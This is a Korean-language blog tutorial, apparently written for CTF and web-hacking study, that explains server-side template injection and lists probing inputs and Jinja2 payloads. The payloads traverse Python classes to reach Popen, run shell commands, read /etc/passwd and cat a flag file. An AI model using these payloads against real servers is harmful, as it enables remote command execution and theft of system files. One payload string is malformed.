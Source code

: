 ```yaml
---
layout: post
title: "SSTI 취약점"
date: 2020-11-06
categories: WEB_HACKING
tags: [web,웹 취약점,ssti]
---
```



## SSTI(Server-Side Template Injection) 취약점이란?
: 웹 어플리케이션에서 동적인 내용을 HTML로 출력할때, 미리 정의한 Template에 동적인 값을 넣어 출력하는 템플릿을 사용하는 경우가 있다.

```
int a;
'''
<html>
<body>
    <h1> {{a}}
</body>
</html>
'''
```

여기서 만약에 Template source에 사용자 입력이 들어간다면 악의적인 입력을 통해 개발자가 의도하지않은 기능을 수행할 수 있게 된다 즉 사용자의 입력데이터가 Template에 직접사용될 위험이 있다는 말이다. 이를 SSTI 취약점이라고 칭한다.

Template의 종류는 다양한데, 보통 jinja2, mako 를 사용하는 것같다.

이 취약점을 테스트 할 때는 다음과 같은 단계로 테스트해 볼수 있다.


1 어떤 템플릿인지 확인하기
`"{{7*7}}"`
`"{{7*'7'}}"`
`"${7*7}"`

![ssti](./SSTI.png)

2 OS라이브러리에 있는 config 추가
`"{{config.from_object('os')}}*"`

3 현재 설정되어있는 config 확인
`{{config}}"`
`{{config.items()}}`

4 root 클래스에 접근.
`{{''.__class__.__mro__}}`

5 상속받은 클래스 확인
`{{''.__class__.__mro__[1].__subclasses__()}}`

여기서 1은 4에서 나온 클래스 중 2번째 인덱스타입을 선택했기 때문에 1을 적은것. (보통 str이 0번, object가 1인데 1을 자주쓰는것같다..)

6 사용할 클래스 고르기
`{{''.__class__.__mro__[1].__subclasses__()[400:]}}`
몇번째인지 잘 확인한다.. 이거는 400번 클래스 부터 나온다는 의미의 명령어인데 이렇게 클래스를 골라주면 됨. 보통 Popen 클래스를 사용해서 flag 를 확인한다. 시스템 명령어도 가능한듯.



7 클래스 사용 (Payload)
`{{''.__class__.__mro__[1]__subclasses__()[408]('ls',shell=True,stdout=-1).communicate()}}`
`{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}`
`{{''.__class__.mro()[0].__subclasses__()[408]('cat ./flag',shell=True,stdout=-1).communicate()[0].strip()}}`
`{{url_for.globals.os.popen(“cat%20flag.txt”).read()}}`



[참고]
- SSTI 취약점 설명
https://watchout31337.tistory.com/m/177?category=904110
- payload 모음집 github:
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection
- Dremhack 서버사이드 강의